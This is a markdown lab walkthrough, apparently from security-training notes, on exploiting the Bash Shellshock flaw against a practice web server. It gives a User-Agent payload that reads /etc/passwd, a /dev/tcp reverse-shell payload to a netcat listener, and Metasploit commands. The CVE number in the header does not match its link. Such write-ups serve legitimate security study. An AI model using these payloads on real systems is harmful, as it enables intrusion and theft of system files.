








# 🔬Bash

## Lab 1

>  🔬 [Shellshock](https://attackdefense.com/challengedetailsnoauth?cid=1911)
>
>  - Target IP: `192.173.104.3`
>  - **Bash Exploitation** - [CVE-2014-6071](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2014-6271)

### Enumeration

```bash
eth1@if54460  UP  192.173.104.2/24 
# target IP is 192.173.104.3
```

```bash
nmap -sV 192.173.104.3
```

```bash
80/tcp open  http    Apache httpd 2.4.6 ((Unix))
```



- Check the website via a browser:
  - `http://192.173.104.3/`
- View Page Source
  - `http://192.173.104.3/gettime.cgi`
  - `gettime.cgi` script can be utilized as the attack vector



- Check if the server is vulnerable to ShellShock

```bash
nmap -sV --script=http-shellshock --script-args "http-shellshock.uri=/gettime.cgi" 192.173.104.3
```



### Manual Exploitation

- [Shellshock exploitable environment](https://github.com/opsxcq/exploit-CVE-2014-6271)
- To inject special characters into the `user-agent` HTTP header, [BurpSuite](https://portswigger.net/burp) can be used.
  - Configure FoxyProxy on Firefox, click on Burp Suite in FoxyProxy and run Burp Suite
  - Inside Proxy menu, turn **Intercept On**
- Reload the `/gettime.cgi` webpage in Firefox and intercept the response in BurpSuite



- Send the request to the **Repeater**
- Replace `User-Agent: ` value with characters:

```bash
() { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'
```

- **Send** the request and check the Response



> 📌 The target is vulnerable to ShellShock

### Reverse Shell

- Set up a listener

```bash
nc -nvlp 1234
```

- Open Burp Suite and change the command to connect to the `netcat` listener of the Kali VM. The payload will be:

```bash
() { :; }; echo; echo; /bin/bash -c 'bash -i >&/dev/tcp/192.173.104.2/1234 0>&1'
```





- *Turn off burpsuite listener and FoxyProxy.*

### Automatic Exploitation

```bash
msfconsole -q
```

```bash
search shellshock
use exploit/multi/http/apache_mod_cgi_bash_env_exec
set RHOSTS 192.173.104.3
# RPORT is ok, 80
set TARGETURI /gettime.cgi
exploit
```



------

